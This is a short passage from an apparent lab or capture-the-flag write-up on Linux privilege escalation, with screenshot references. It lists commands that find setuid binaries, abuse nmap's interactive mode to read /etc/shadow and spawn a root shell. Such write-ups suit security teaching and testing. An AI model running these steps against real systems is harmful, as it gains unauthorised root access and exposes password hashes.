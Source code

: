 ![writeup.privesc.steps.1.3](./screenshot08b.png)  

2\. We find that the `nmap` binary on this system has `setuid` privileges. We can use this to gain elevated access:  
``` {.python .numberLines}
find / -type f -perm -04000 2>/dev/null
ls -la /usr/local/bin/nmap
nmap --interactive
  !cat /etc/shadow
  !sh

```

![writeup.privesc.steps.2.1](./screenshot09.png)  
